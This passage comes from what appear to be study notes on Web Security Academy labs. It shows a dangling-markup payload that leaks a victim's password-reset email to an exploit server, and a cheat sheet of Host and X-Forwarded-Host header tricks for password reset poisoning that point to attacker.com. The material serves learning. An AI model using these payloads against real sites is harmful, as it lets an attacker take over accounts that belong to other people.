 ```
  >  '<a href="//your-exploit-server-id.web-security-academy.net/? 

11. Check email client  -> got new email -> Content missing -> Check exploit server and access log -> There is an entry for GET /?/login'>[...] -> this contain rest of the email body -> and also new password
12. Now in Burp Repeater -> Change username to victim and Forward request of /forgot-password and now check exploit server and access log and check for new password and use that and login with that creds to victim account


### Summary  for Passowrd Reset Poisoning attack =>

We can use following ways to perform this attack and bypasses as well

1. Simple Technique =>

> Host: attacker-server.com

2. Indent Spaces Trick =>
>    Host: attacker.com
> Host: vul-target.com

3. Switch Host Trick =>

> Host: vul-target.com
> Host: attacker.com

> OR

> Host: attacker.com
> Host: vul-target.com

4. Trying other Headers as well => Like X-Forwarded-Host etc

> Host:vul-tar.com
> X-Forwarded-Host: attacker.com

Other Headers =>

```
   X-Original-Url:
   X-Forwarded-Server:
   X-Host:
   X-Forwarded-**Host**:
   X-Rewrite-Url:
```

5. Try for random Port as well =>

> Host: attacker.com:1234

> OR

> Host: attacker.com:<non-numeric port like arbitraryport> 

6. Remember Dangling Markup Trick


==============================================================

## 2. Web cache poisoning via the Host header =>

### About Web Cache =>
```
